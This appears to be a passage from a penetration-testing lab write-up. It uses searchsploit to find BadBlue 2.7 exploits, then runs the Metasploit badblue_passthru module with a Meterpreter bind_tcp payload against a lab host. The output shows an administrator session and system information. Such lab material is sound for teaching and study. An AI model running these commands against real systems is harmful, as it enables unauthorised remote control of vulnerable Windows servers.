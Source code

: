 _Using searchsploit to find exploits for BadBlue 2.7._

`searchsploit badblue 2.7`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
BadBlue 2.72 - PassThru Remote Buffer Overflow                                                                      | windows/remote/4784.pl ←
BadBlue 2.72b - Multiple Vulnerabilities                                                                            | windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                               | windows/remote/16806.rb
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

_Exploiting BadBlue 2.7 to gain a Meterpreter session on `fileserver.ine.local`._

`search badblue`, `use exploit/windows/http/badblue_passthru`, `set PAYLOAD windows/meterpreter/bind_tcp`, `show options`, `set RHOSTS `, `set LPORT 5555`, `exploit`:
``` 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Started bind TCP handler against 10.4.27.15:5555
[*] Sending stage (175174 bytes) to 10.4.27.15
[*] Meterpreter session 2 opened (10.4.16.233:49721 -> 10.4.27.15:5555 via session 1) at 2024-08-07 14:51:36 +0530 ←
```

_Interacting with the new Meterpreter active session._

`sessions -i 2`

<span style="color: #64b5f6;">**Target (victim 2: fileserver.ine.local) machine**</span>.

_Confirming administrative privileges on the new target._

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator ←
```

_Gathering system information from the new target._

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
